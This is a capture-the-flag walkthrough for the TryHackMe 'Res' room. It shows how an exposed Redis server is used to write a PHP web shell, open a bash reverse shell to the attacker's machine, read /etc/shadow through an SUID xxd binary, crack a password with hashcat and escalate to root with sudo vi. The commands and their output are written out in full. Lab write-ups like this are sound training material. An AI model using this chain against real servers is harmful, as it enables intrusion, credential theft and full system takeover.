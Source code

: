 ```yaml
---
title: Walkthrough - Res
published: true
---
```


SGBD, Enumeration, RCE, Cracking. Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

![0xskar](/assets/redis01.png)

[https://tryhackme.com/room/res](https://tryhackme.com/room/res)

* * *

## Scan the machine, how many ports are open?

- ``nmap -Pn -sS -p- 10.10.17.249 -vvv ``
- ``nmap -sC -sV -sT -O -p80,6379 10.10.17.249``

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.1 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## What's is the database management system installed on the server?

- Redis

* * * 

## What port is the database management system running on?

- 6379

* * * 

## What's is the version of management system installed on the server?

- 6.0.7

* * * 

## Compromise the machine and locate user.txt

- ``redis-cli -h 10.10.17.249`` - to connect to the redis server
- ``info server`` looking here in the server info we find a working directory for redis... ``executable:/home/vianka/redis-stable/src/redis-server``
-  because we can see the users home directory we should be able to import a genetateed rsa key into redis and login to it there.

1. Generate public key ``ssh-keygen -t rsa -f rsa``
2. Write the public key to a file ``(echo -e "\n\n"; cat ./rsa.pub; echo -e "\n\n") > foo.txt``
3. Import the file into redis ``cat foo.txt | redis-cli -h 10.10.17.249 -x set crackit``
4. Save the public key to the authorized_keys file on the redis server
5. whelp this doesnt work... The .ssh directory doesnt seem to be accesssible

So trying some other things our I end up finding the web directory.

```
10.10.17.249:6379> config set dir /var/www/html
OK
10.10.17.249:6379> config set dbfilename redis.php
OK
10.10.17.249:6379> set test "<?php phpinfo(); ?>"
OK
10.10.17.249:6379> save
OK
```

do we can vidit this page now on the webserver. lets alter it do we can get a php reverse shell

```
10.10.131.125:6379> config set dir /var/www/html
OK
10.10.131.125:6379> config set dbfilename shell.php
OK
10.10.131.125:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/6666 0>&1'\"); ?>"
OK
10.10.131.125:6379> save
OK
```

and catch the reverse shell

```
┌──(0xskar㉿cocokali)-[~]
└─$ pwncat -l 10.2.127.225 6666
whoami
www-data
ls -las
total 24
 4 drwxrwxrwx 2 root   root    4096 Aug  9 13:49 .
 4 drwxr-xr-x 3 root   root    4096 Sep  2  2020 ..
12 -rw-r--r-- 1 root   root   11321 Sep  2  2020 index.html
 4 -rw-r--r-- 1 vianka vianka   179 Aug  9 13:49 shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ 
```

![0xskar](/assets/redis02.png)

* * * 

## What is the local user account password?

```
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
```

If ``xxd`` has the suid bit set we can read files with it.

- ``xxd /etc/shadow | xxd -r``
- ``unshadow`` this file and then hashcat
- ``hashcat -m 1800 creds.unshadow /usr/share/seclists/Passwords/rockyou.txt ``

```
Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:beautiful1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
```

* * * 

## Escalate privileges and obtain root.txt

- ``su vianka``

```
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Easy enough...

- ``sudo vi -c ':!/bin/sh' /dev/null``

* * * 

